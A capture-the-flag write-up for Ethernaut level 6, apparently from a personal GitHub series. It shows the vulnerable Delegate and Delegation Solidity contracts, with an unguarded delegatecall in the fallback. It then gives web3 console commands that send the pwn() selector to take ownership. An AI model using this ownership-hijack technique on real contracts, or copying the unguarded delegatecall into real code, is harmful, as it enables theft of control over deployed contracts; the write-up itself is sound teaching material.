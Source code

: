 # Level 6: Delegation

This is the level 6 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity

## Hack

Given contracts:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`player` has to claim ownership of provided instance of `Delegation` contract.

A simple one if you clearly understand how `delegatecall` works, which is being used in `fallback` method of `Delegation`.

We just have to send function signature of `pwn` method of `Delegate` as `msg.data` to `fallback` so that _code_ of `Delegate` is executed in the context of `Delegation`. That changes the ownership of `Delegation`.

So, first get encoded function signature of `pwn`, in console:

```javascript
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Then we send a transaction with `signature` as data, so that `fallback` gets called:

```javascript
await contract.sendTransaction({ from: player, data: signature })
```

After transaction is successfully mined `player` is the `owner` of `Delegation`. Verify by:

```javascript
await contract.owner() === player

// Output: true
```

That's it.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

